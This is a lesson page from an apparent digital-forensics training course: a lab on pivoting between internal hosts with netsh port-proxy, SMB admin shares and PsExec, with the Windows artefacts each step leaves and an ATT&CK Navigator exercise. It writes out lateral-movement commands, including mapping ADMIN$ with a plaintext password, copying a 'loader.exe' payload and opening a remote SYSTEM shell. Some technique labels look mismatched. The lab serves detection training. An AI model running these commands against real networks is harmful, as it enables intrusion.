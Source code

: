 ```yaml
---
layout: post
title: "7.7 Pivot Lab – RPC & SMB Pivoting"
date: 2025-06-22
permalink: /modules/7/pivot-lab/
excerpt: >
  A step‑by‑step lab where you pivot from an initial beach‑head to multiple
  internal hosts using RPC and SMB admin shares, capture artefacts, and turn the
  results into an ATT&CK Navigator layer.
header:
  overlay_image: /assets/images/pivot-lab-banner.png
  overlay_color: "#2b2b2b"
  overlay_filter: "0.4"
---
```


> “Mastering east‑west movement is the DFIR equivalent of chess end‑games—every move must be mapped and explained.”  
> — Pivot‑Lab Instructor

## 1 • Lab Objectives

| Goal                           | ATT&CK Technique(s)          |
|--------------------------------|------------------------------|
| Enumerate reachable sub‑nets   | **T1046** Network Service Discovery |
| Pivot via RPC `portproxy`      | **T1021.002** SMB, **T1021.004** RPC |
| Execute remote commands (PsExec)| **T1569.002** Service Execution |
| Collect & map artefacts        | Create Navigator layer for Module 7 |

---

## 2 • Environment

| Role              | Hostname | IP            | Notes                                   |
|-------------------|----------|---------------|-----------------------------------------|
| Beach‑head (low)  | **WS‑01**| 10.0.10.25    | Stolen user creds                       |
| Jump Box (mid)    | **WS‑02**| 10.0.20.15    | RPC allowed from WS‑01 → Server VLAN    |
| File Server       | **FS‑01**| 10.0.30.5     | Admin share for data staging            |
| Domain Controller | **DC‑01**| 10.0.40.10    | Target high‑value host                  |

---

## 3 • Tasks & Commands

### 3.1 Enumerate SMB & RPC on WS‑02
```bash
nmap -p 445,135 10.0.20.15 -oG ws02_scan.gnmap
```

### 3.2 Create RPC Port‑Proxy (WS‑01 → WS‑02)
```cmd
netsh interface portproxy add v4tov4 listenport=8445 listenaddress=127.0.0.1 \
    connectport=445 connectaddress=10.0.20.15
```
*Maps local 8445 to WS‑02 445.*

### 3.3 Access Admin Share Through Proxy
```cmd
net use \\127.0.0.1@8445\ADMIN$ /user:corp\svc Password1!
copy loader.exe \\127.0.0.1@8445\ADMIN$\loader.exe
```

### 3.4 Pivot Again – PsExec to FS‑01
```cmd
psexec.exe \\FS-01 -s cmd.exe
```
*Tag as **T1021.002**; watch Sysmon 3 on WS‑02 & FS‑01.*

---

## 4 • Artefact Checklist

| Artefact                           | Location / Log                          | Technique Map |
|------------------------------------|-----------------------------------------|---------------|
| `netsh portproxy` registry keys    | `HKLM\SYSTEM\CurrentControlSet\services\PortProxy` | T1021.004 |
| Event 5140 “ADMIN$” share access   | Security.evtx (WS‑02 / FS‑01)           | T1021.002 |
| PsExec service **psexesvc**        | System.evtx (FS‑01) + service registry  | T1021.002 |
| Zeek conn.log spike on 445/135     | Sensor on Server VLAN                   | T1046 |

---

## 5 • Build the Navigator Layer

1. Export artefact list → `pivot_lab_layer.json`  
2. Color‑code techniques:  
   - **Green** — Detected by SIEM  
   - **Red**   — Not visible (gap)

Sample layer snippet:
```json
{
  "techniques": [
    { "techniqueID": "T1021.002", "color": "#ff6666", "comment": "PsExec not logged on FS‑01" },
    { "techniqueID": "T1021.004", "color": "#66b266", "comment": "Port‑proxy registry key detected" }
  ]
}
```

---

## 6 • Deliverables

| Item                         | Format                 |
|------------------------------|------------------------|
| **Pivot Timeline**           | Markdown / CSV         |
| **Navigator Layer**          | `pivot_lab_layer.json` |
| **Detection Gaps Report**    | 1‑page PDF             |

---

<div class="post-resources container">
  <h3>Resources</h3>
  <ul>
    <li><a href="https://attack.mitre.org/techniques/T1021/" target="_blank">ATT&CK T1021 Remote Services</a></li>
    <li><a href="https://learn.microsoft.com/windows-server/administration/windows-commands/netsh-interface-portproxy" target="_blank">netsh portproxy Documentation</a></li>
    <li><a href="https://docs.microsoft.com/sysinternals/downloads/psexec" target="_blank">Sysinternals PsExec</a></li>
    <li><a href="https://github.com/BloodHoundAD/bloodhound" target="_blank">BloodHound for Navigator import</a></li>
  </ul>
</div>

<a href="{{ site.baseurl }}/modules/collection-exfil-impact/" class="next-link">Module 8 Start → Collection, Exfiltration & Impact</a>